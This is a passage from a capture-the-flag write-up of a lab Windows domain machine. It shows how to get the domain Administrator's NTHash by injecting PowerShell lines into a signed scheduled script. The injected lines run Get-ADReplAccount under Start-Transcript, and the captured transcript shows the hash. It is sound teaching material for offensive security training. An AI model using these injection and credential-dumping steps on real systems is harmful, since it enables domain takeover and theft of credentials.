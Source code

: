 ```
...[snip]...

```

There’s the NTHash, b3ff8d7532eef396a5347ed33933030f.

#### Via Injection

If I couldn’t get a shell for some reason, I could still do this via the script injection. I’ll add the following three lines to the start of my local copy of `Get-bADpasswords.ps1`:

```

Start-Transcript -Path 'C:\Programdata\0xdf-transcript.txt'
Get-ADReplAccount -SamAccountName administrator -Server 'hathor.windcorp.htb'
Stop-Transcript

```

This is starting a transcript in the location of my choosing, and then running the same command.

I’ll upload, copy into place, sign, and trigger. `C:\programdata\0xdf-transcript.txt` exists:

```

PS C:\programdata> ls 0xdf-transcript.txt

    Directory: C:\programdata

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        11/10/2022  11:14 PM           6622 0xdf-transcript.txt 

```

And it has the same information after a transcript header:

```

PS C:\programdata> type 0xdf-transcript.txt
**********************
Windows PowerShell transcript start
Start time: 20221110231446
Username: WINDCORP\bpassrunner
RunAs User: WINDCORP\bpassrunner
Configuration Name:                            
Machine: HATHOR (Microsoft Windows NT 10.0.20348.0)
Host Application: powershell.exe C:\Get-bADpasswords\Get-bADpasswords.ps1
Process ID: 25908                              
PSVersion: 5.1.20348.643                       
PSEdition: Desktop                             
PSCompatibleVersions: 1.0, 2.0, 3.0, 4.0, 5.0, 5.1.20348.643
BuildVersion: 10.0.20348.643                   
CLRVersion: 4.0.30319.42000                    
WSManStackVersion: 3.0
PSRemotingProtocolVersion: 2.3
SerializationVersion: 1.1.0.1
**********************                         
Transcript started, output file is C:\Programdata\0xdf-transcript.txt
                                                    
DistinguishedName: CN=Administrator,CN=Users,DC=windcorp,DC=htb
Sid: S-1-5-21-3783586571-2109290616-3725730865-500
...[snip]...
Owner: S-1-5-21-3783586571-2109290616-3725730865-512 
Secrets
  NTHash: b3ff8d7532eef396a5347ed33933030f
...[snip]...

```